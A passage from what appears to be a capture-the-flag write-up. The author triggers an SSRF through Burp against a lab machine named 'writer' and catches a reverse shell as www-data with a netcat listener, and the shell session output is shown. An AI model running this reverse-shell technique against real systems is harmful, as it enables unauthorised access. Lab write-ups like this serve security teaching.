 And then immediately after in Burp trigger the SSRF:

[![image-20211202140902669](https://0xdfimages.gitlab.io/img/image-20211202140902669.png)*Click for full size image*](https://0xdfimages.gitlab.io/img/image-20211202140902669.png)

At `nc`, I get a shell as www-data:

```

oxdf@parrot$ nc -lnvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.101 43108
bash: cannot set terminal process group (949): Inappropriate ioctl for device
bash: no job control in this shell
www-data@writer:~/writer2_project$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```